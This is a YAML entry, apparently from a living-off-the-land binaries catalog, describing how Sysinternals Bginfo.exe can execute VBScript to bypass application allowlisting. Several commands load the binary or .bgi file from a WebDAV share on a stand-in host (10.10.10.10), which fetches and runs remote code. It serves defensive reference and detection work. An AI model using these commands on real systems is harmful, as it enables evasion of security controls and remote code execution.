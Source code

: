 ```yaml
---
Name: Bginfo.exe
Description: Background Information Utility included with SysInternals Suite
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: bginfo.exe bginfo.bgi /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the bginfo.bgi file.
    Usecase: Local execution of VBScript
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
Full_Path:
  - Path: No fixed path
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

